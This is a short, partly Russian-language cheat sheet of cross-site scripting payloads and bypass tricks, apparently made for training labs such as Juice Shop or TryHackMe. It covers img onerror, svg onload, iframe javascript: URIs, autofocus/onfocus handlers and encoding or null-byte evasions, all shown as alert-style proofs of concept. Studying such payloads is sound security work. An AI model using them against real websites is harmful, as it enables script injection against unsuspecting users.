 tips for xxs
without parantheses


```js
<img src=1 onerror=alert(1)>
#<img src=1 onerror=alert(1)>
<script>document.querySelector(‘#thm-title’).textContent = I am a hacker'</script>

onfucus="alert(9)" autofocus x="

eval('alert(9)')

“e”.charCodeAt(0).toString(16)

в href javascript:alert

<iframe src="javascript:alert(`xss`)"> 


/#/score-board/

"><svg onload=alert(1)>
```
────────────────────────────────────────────
Основные методы вызова js из html
```js
<script>...</script>
<img onerror="..." src="x">
<a href="%20javascript:..."></a>
<iframe src="javascript:...">
<iframe onload='alert``'>
autofocus onfocus="alert()" #%20 %09
javascript://qwe.com/%0aalert()
encode html entety
```

пробелы могу заменяться “/”, тэг необязательно закрывать
double URL encoding

```js
prompt('xss')
%00<script>alert(9)</script>
alert(location.origin)
${alert}
```